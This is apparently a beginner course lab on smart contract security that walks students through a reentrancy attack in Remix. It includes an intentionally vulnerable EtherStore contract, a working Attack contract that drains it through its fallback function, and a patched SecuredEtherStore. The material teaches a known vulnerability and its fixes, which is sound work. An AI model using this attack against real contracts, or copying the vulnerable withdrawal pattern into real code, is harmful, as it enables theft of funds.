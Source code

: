 # Module 9 - Beginner Lab: Smart Contract Security

## Background
As with all software, there is a chance that a smart contract may be exploited. In the case of smart contracts, though, there is an especially high risk, since transactions are permanent and wallets are essentially anonymous. To prevent financial loss, it is a good idea to follow best practices for secure programming, such as the [checks-effects-interactions pattern][checks-effects-interactions].

## Meta Information
| Attribute | Explanation |
| - | - |
| Summary | This assignment goes over exploiting a bad practice in smart contract programming. |
| Topics | Smart contracts, security, risk of financial loss. |
| Audience | Appropriate for CS1 or a later course. |
| Difficulty | Beginner. |
| Strengths | This assignment makes students aware of a type of security issue, attack scenario, and a best practice when writing code for smart contracts. |
| Weaknesses | Effective secure programming requires the discipline of strict adherence to many, potentially unintuitive guidelines for which it is impractical to present the breadth of in a single lab. |
| Dependencies | Some programming knowledge and an internet-connected computer with a suitable browser for use of [the Remix IDE][Remix]. |
| Variants | There are many other vulnerabilities which could be the focus of this lab instead. |

## Assignment Instructions
1. First, we begin by creating a contract with a simple purpose, such as temporarily holding Ether for the owner(s). Click the plus icon ![plus-icon.png](screenshots/plus-icon.png) in the upper left corner of [Remix][Remix] to create a new document and name it `EtherStore.sol`. Then copy and paste the following code:  
    [_EtherStore.sol_][EtherStore.sol]
    ```solidity
    contract EtherStore {

        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            require(msg.sender.call.value(_weiToWithdraw)());
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
     }
    ```
    ![create-new-file](screenshots/create-new-file.png)  
    ![etherstore-created.png](screenshots/etherstore-created.png)  
2. We then create an other contract to attack `EtherStore.sol`. Create a new contract named `Attack.sol`, and copy/paste the following code:  
    [_Attack.sol_][Attack.sol]
    ```solidity
    import "EtherStore.sol";

    contract Attack {
      EtherStore public etherStore;

      // intialize the etherStore variable with the contract address
      constructor(address _etherStoreAddress) {
          etherStore = EtherStore(_etherStoreAddress);
      }

      function attackEtherStore() public payable {
          // attack to the nearest ether
          require(msg.value >= 1 ether);
          // send eth to the depositFunds() function
          etherStore.depositFunds.value(1 ether)();
          // start the magic
          etherStore.withdrawFunds(1 ether);
      }

      function collectEther() public {
          msg.sender.transfer(this.balance);
      }

      // fallback function - where the magic happens
      function () payable {
          if (etherStore.balance > 1 ether) {
              etherStore.withdrawFunds(1 ether);
          }
      }
    }
    ```
    ![attack-created.png](screenshots/attack-created.png)  
3. In `Attack`, observe that whenever this contract's `attackEtherStore` function is called with a transaction amount >= 1 ether, it then calls the `EtherStore` contract’s `depositFunds` function, followed immediately by `EtherStore`'s `withdrawFunds` function. The `EtherStore` contract verifies the balance, owner, withdrawal amount, and time since last withdrawal are all okay and proceeds to pay the attacking contract. So far, everything seems okay; however, once the `EtherStore` contract pays the `Attack` contract, execution of the code flows into the `Attack` contract's fallback function (the function called when a contract is paid any amount). Inside the `Attack` contract's fallback function, `EtherStore`'s balance is checked, and provided there is ether remaining to steal, the `withdrawFunds` function is called again. The `Attack` contract has, in effect, caused execution to "reenter" the `EtherStore` contract's `withdrawFunds` function before it could update the values it checks to ensure everything is okay before paying out.
4. Click on the plugin icon ![plug-icon.png](screenshots/plug-icon.png) in the left-most pane of Remix.
    ![left-icon-pane.png](screenshots/left-icon-pane.png)
5. Activate the `Deploy & Run Transactions` and `Solidity Compiler` plugins.
    ![plugins-to-activate.png](screenshots/plugins-to-activate.png)
    You should see two new icons in the leftmost pane: one, the solidity compiler, looks like an "s" ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png) and the other, deploy and run, is the ethereum symbol with an arrow to the right ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png).
    ![activated-plugin-icons.png](screenshots/activated-plugin-icons.png)
6. Click the solidity compiler plugin icon ![solidity-compiler-icon.png](screenshots/solidity-compiler-icon.png).
7. Select compiler `0.4.26+commit.4563c3fc`.  
    ![compiler-version.png](screenshots/compiler-version.png)  
7. Click the `EtherStore.sol` tab of the editor.  
    ![etherstore-tab.png](screenshots/etherstore-tab.png)  
8. Click the `Compile EtherStore.sol` button and wait for compilation to complete. For the purposes of this lab, you can safely ignore all (yellow) warnings.  
    ![compile-etherstore.png](screenshots/compile-etherstore.png)  
9. Repeat the previous two steps for `Attack.sol`.
8. Click the deploy-and-run plugin icon ![deploy-and-run-icon.png](screenshots/deploy-and-run-icon.png), and select `EtherStore` in the box just above the orange `Deploy` button.  
    ![to-deploy-etherstore.png](screenshots/to-deploy-etherstore.png)  
10. Click the orange `Deploy` button ![orange-deploy-button.png](screenshots/orange-deploy-button.png).
    ![deploy-and-run-view.png](screenshots/deploy-and-run-view.png)
9. A smart contract, **EtherStore** will be deployed to the blockchain.
    ![contract-deployed.png](screenshots/contract-deployed.png)

10. Do the same for `Attack.sol`.
x. We can prevent an attack like this in a few different ways. One way is to use the built-in `transfer` function, which only sends 2300 gas, insufficient to allow the current execution to call the `withdrawFunds` function again. An other way is to use what's known as the [checks-effects-interactions pattern][checks-effects-interactions], which would have us move lines 18 and 19 to before line 17, so that updates to checked variables are done before interaction with an outside entity. One more way we could prevent this attack is with an additional state variable, called a mutex or mutual exclusion variable, which acts as a lock and prevents further execution from occurring until the current function exits (and resets the mutex). Including all three methods (though any one would work), we have a more-secure `EtherStore`, which we'll call `SecuredEtherStore`:  
    [_SecuredEtherStore.sol_][SecuredEtherStore.sol]
    ```solidity
    contract SecuredEtherStore {

        // initialize the mutex
        bool reEntrancyMutex = false;
        uint256 public withdrawalLimit = 1 ether;
        mapping(address => uint256) public lastWithdrawTime;
        mapping(address => uint256) public balances;

        function depositFunds() public payable {
            balances[msg.sender] += msg.value;
        }

        function withdrawFunds (uint256 _weiToWithdraw) public {
            require(!reEntrancyMutex);
            require(balances[msg.sender] >= _weiToWithdraw);
            // limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            // limit the time allowed to withdraw
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
            // set the reEntrancy mutex before the external call
            reEntrancyMutex = true;
            msg.sender.transfer(_weiToWithdraw);
            // release the mutex after the external call
            reEntrancyMutex = false;
        }
     }
    ```

## Credits
Dr. Debasis Bhattacharya  
Mario Canul  
Saxon Knight  
https://github.com/ethereumbook/ethereumbook  

[Remix]: https://remix.ethereum.org/
[EtherStore.sol]: EtherStore.sol
[Attack.sol]: Attack.sol
[SecuredEtherStore.sol]: SecuredEtherStore.sol
[checks-effects-interactions]: https://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern
